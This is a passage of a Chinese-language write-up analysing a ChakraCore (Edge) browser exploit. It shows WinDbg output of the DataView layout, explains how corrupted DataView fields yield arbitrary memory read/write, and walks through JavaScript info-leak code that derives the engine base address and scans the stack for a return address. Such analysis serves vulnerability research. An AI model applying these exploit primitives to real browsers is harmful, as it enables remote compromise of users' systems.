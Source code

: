 本质是在修改DataView对象各个域的值，下面，我们用自己编译的ChakraCore来验证上面的猜测。
因为微软已经将[Chakra](https://github.com/Microsoft/ChakraCore)开源，这样可以自行编译一个ChakraCore，也会有更丰富的symbol，可以使用下面的命令将外部的dll加载到调试进程中。

```
0:004> .reload /f /i C:\Users\admin\Desktop\ChakraCore\ChakraCore.dll=ffffffff
0:004> lm
start             end                 module name
00000000`ffffffff 00000000`ffffffff   ChakraCore   (private pdb symbols)  C:\ProgramData\dbg\sym\ChakraCore.pdb\0AA246FBAE584A8BBE5C233412A3A6051\ChakraCore.pdb
00007ff7`b3e00000 00007ff7`b3e16000   microsoftedgecp   (deferred)

0:004> dt ChakraCore!Js::DataView
   +0x000 __VFN_table : Ptr64 
   +0x008 type             : Ptr64 Js::Type
   +0x010 auxSlots         : Ptr64 Ptr64 Void
   +0x018 objectArray      : Ptr64 Js::ArrayObject
   +0x018 arrayFlags       : Js::DynamicObjectFlags
   +0x01a arrayCallSiteIndex : Uint2B
   +0x020 length           : Uint4B
   +0x028 arrayBuffer      : Ptr64 Js::ArrayBufferBase
   +0x030 byteOffset       : Uint4B
   +0x038 buffer           : Ptr64 UChar
```

参考相应的偏移可以看出DataView相关的域正好与上面给x设置的值是一致的。尤其是x[14]和x[15]就是DataView中buffer的地址，这就使得SetAddress函数可以通过x来任意设置需要读写的位置，实现全局读写。

### 关于info leak

解释一下下面这段code

```JavaScript
var vtable = Read64(new Long(lo - 0x58, hi, true));
var chakraBase = Read64(vtable).sub(0x274C40);
var threadCtxPtr = Read64(chakraBase.add(0x735EA8));
var stackLimit = Read64(threadCtxPtr.add(0x388));
var stack = stackLimit.sub(0xC000).add(10*1024*1024); 
var retPtr = chakraBase.add(0x162A1D);
var retPtrAddr;
for (var i = 8; i < 32 * 1024; i += 8)
{
    var val = Read64(stack.sub(i));
    if (val.equals(retPtr))
    {
        retPtrAddr = stack.sub(i);
        break;
    }
}

```

在脚本执行的线程栈空间中（搜索10M的空间），去查找是否有**00007ff9`6b152a1d**，也就是chakraBase.add(0x162A1D)

